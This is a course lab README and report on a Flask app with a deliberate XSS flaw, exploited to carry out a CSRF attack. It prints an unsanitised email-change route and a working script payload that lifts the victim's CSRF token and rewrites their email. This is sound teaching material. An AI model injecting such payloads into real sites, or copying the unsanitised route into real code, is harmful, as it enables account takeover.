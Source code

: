 # CSRF-Web-Security
Simple Flask application containing a vulnerable website. Cross-Site Request Forgery assignment for Web Security course

## Run the app with the following commands
You can try to perform the attack using the script provided at the end of the readme.

### Put these lines in your hosts file
```text
127.0.0.1 www.attacker.com
127.0.0.1 www.vulnerable.com
```
### Run these commands into your app's folder
```bash
$ export FLASK_APP=app.py; flask run
```
And search for http://www.vulnerable.com:5000 in your browser (log in with credentials provided in user.py file)

# CSRF and XSS Vulnerability Lab Report
Written by Elisa Rizzo, Pietro Visconti

## Introduction
CSRF attacks aim to induce the victim to perform involuntary actions through which the attacker can modify or delete private information, or gain control of the target account.

## Attack Description
The chosen challenge is the last one proposed, regarding the use of an XSS vulnerability to implement a CSRF attack with the purpose of modifying the email of every user who visits the page containing the injected script.

In this case, the attack consists of injecting a script that makes a request to the **my-account/change-password** endpoint. The focal point is to retrieve the victim's CSRF token so that the request created by the attacker is accepted. To do this, the script needs to access the document body and access the csrf attribute, as will be further detailed in the section regarding the attack reproduction on our Flask application.

## Vulnerability in Flask Application
To build the Flask application, we started from the application provided in the previous exercise and modified it to include the XSS vulnerability necessary to trigger the CSRF attack.

Firstly, we configured the vulnerable site to include `flask_wtf.csrf`, the library required to activate protection against CSRF attacks, which generates a new token for each request, making the ones already used obsolete.

```python
from flask_wtf.csrf import CSRFProtect

csrf = CSRFProtect()
csrf.init_app(app)
```

Additionally, we added a new route to allow users to change their email. This route retrieves the email field from the request body and assigns it to the user's email field.

```python
@vulnerable_blueprint.route("/change-email", methods=["POST"], host=VULNERABLE_DOMAIN)
def change_email():
    user = get_current_user()
    user.email = request.form.get('email');
    return user.email
```

The form for submitting the post includes a hidden input field, csrf_token, containing the CSRF token value to ensure the user's identity before the actual submission. No input sanitization is performed, introducing an XSS vulnerability that can be exploited to include tags, such as the script tag used in the actual attack, within the post body.

The attacker's script consists of the following steps:
1. It calls the `window.addEventListener('DOMContentLoaded')` function to execute the script once the HTML page is fully loaded in the client's browser.
2. Within the callback of this function, the CSRF attack is executed.
3. The CSRF token is retrieved from the DOM and stored in the `csrf` variable.
4. A `FormData` variable is created to create a form and fill it with the inputs that will be transmitted in the request body.
5. The following fields are added to the form:
   - `csrf_token`, required for the successful execution of the request.
   - the email chosen by the attacker.
6. An `XMLHttpRequest` variable is created and configured to make a `POST` request to the `/change-email` endpoint of the vulnerable site.
7. Finally, the request is sent.

```javascript
<script>
    window.addEventListener('DOMContentLoaded', function() {
        let csrf = document.getElementsByName("csrf_token")[0].value;
        let data = new FormData();
        data.append('csrf_token', csrf);
        data.append('email', 'attacker@gmail.com');
        var xhttp = new XMLHttpRequest();
        xhttp.open("POST", "http://www.vulnerable.com:5000/change-email", false);
        xhttp.send(data);
    });
</script>
```
